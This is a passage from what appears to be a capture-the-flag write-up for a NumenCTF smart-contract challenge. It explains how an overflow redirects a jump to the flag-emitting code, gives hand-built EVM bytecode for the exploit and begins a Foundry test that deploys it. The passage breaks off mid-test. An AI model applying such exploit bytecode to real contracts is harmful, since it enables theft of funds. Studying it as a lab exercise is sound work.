 0x22a + 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffcb will overflow and become 0x1f5

So we will return the block number and 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffcb in our target bytecode, but we won't be using something like PUSH32 as it is going to take too much space, we can just subtract from 0 which will underflow, and instead of using PUSH1 0x00, we can use RETURNDATASIZE, as there are no calls before so it is 0, also we can use MSIZE instead of PUSH1 0x20

```
NUMBER
RETURNDATASIZE
MSTORE
PUSH1 0x35
RETURNDATASIZE
SUB
MSIZE
MSTORE
MSIZE
RETURNDATASIZE
REVERT

433d5260353d035952593dfd
```

![](https://i.imgur.com/tJmvokh.png)

It shows that after the `SendFlag()` is emitted, it will jump to 0x64 and stop, however it is not the case for us, as 0x64 is pushed to the stack in the beginning of `payforflag()` that is much earlier than the jumpdest at 0x1f5 that we jumped, by running the foundry debugger, we will know it will jump to the "return address" it set in `execute()` instead, that is 0x17d, which is the code in `checkPermission()` modifier, thats why we still need a bytecode not longer than 12 bytes, as it will still reach the code to check the code size


I will use te Deployer contract to deploy the bytecode which will just return the bytes passed to it in the constructor, storing that as the runtime bytecode

### Foundry test :
```solidity
// SPDX-License-Identifier: UNLICENSED

pragma solidity 0.8.12;

import "forge-std/Test.sol";
import "../src/NumenCTF.sol";
import "../src/deploy_bytecode.sol";

contract lenderpoolTest is Test {
    Numen public littlemoney;
    Deployer public target;
    address owner = makeAddr("owner");
    address hacker = makeAddr("hacker");

    function setUp() public {
        vm.prank(owner);
        littlemoney = new Numen();
    }

    function testAttack() public {
        vm.startPrank(hacker);
        
        target = new Deployer(hex"433d5260353d035952593dfd");
        vm.recordLogs();
        littlemoney.execute(address(target));
        
```